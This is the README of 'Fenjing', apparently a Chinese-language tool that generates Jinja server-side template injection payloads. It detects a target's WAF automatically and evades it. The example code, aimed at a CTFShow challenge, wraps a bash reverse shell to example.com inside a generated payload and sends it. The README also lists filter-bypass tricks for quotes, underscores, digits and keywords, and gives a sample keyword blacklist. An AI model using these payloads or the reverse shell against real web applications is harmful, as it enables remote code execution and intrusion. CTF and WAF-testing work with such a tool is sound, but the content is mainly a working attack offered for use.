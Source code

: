 ![](./fenjing.webp)

> Bypassing the WAF without knowing WAF

## 介绍

焚靖是一个针对Jinja SSTI的Payload生成器，支持自动检测WAF并尝试绕过

## 使用

示例：[CTFShow]web372

首先写一个函数，这个函数接受一个字符串，如果这个字符串包含会被WAF的字符，则返回False，否则返回True

```python
@functools.lru_cache
def waf(s: str):

    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("
```

然后将这个函数和你要运行的shell命令传给模块，即可生成payload

```python
payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3003 0>&1\"")
```

完整示例：

```python
from ssti import shell_cmd

import functools
import time
import requests
import logging

logging.basicConfig(level = logging.WARNING)

# ctf.show web372
url = "http://ddde51f2-ff61-4f88-a9a7-3af3654a76b8.challenge.ctf.show/"

@functools.lru_cache
def waf(s: str):
    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

r = requests.get(url, params = {
    "name": payload
})

print(r.text)
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


### 测试绕过：

```python
from ssti import shell_cmd

import functools
import time
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```
